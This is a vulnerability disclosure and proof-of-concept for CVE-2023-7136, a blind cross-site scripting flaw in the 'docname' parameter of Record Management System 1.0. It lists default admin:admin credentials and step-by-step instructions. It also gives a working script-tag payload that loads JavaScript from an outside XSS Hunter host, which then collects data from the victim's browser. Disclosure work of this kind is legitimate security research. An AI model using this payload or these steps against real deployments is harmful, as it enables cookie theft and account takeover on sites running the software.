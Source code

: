 # CVE-2023-7136_Record_Management_System-Blind_Cross_Site_Scripting-2
+ **Exploit Title:** CVE-2023-7136_Record_Management_System-Blind_Cross_Site_Scripting-2
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/record-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/RECORD_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7136

## References: 
+ **CVE-2023-7136:** https://vuldb.com/?id.249139
+ https://www.cve.org/CVERecord?id=CVE-2023-7136
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7136
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7136

## Description:
Record Management System 1.0 allows Blind Cross-Site Scripting via parameter 'docname' in "/recordmanagement/main/doctype.php". Record Management System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the login panel: "http://localhost/recordmanagement/"
+ Login with `admin`:`admin`
+ Go to the Document Type: "http://localhost/recordmanagement/main/doctype.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Add Doc Type and Name with payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![4-1](https://github.com/h4md153v63n/CVEs/assets/5091265/8bfdf785-ec1f-4c13-b744-0a113fb5dc7b)
<br>
<br>
![4-2](https://github.com/h4md153v63n/CVEs/assets/5091265/3b18e148-3622-4695-88f6-57291836d32c)
<br>
<br>
![4-3](https://github.com/h4md153v63n/CVEs/assets/5091265/d8c1cf8c-ce5f-46fd-bc21-cfcbfe0a2d93)
<br>
<br>
![4-4](https://github.com/h4md153v63n/CVEs/assets/5091265/b15fbf45-0d73-45f1-8cc2-7a06ab8b7c78)
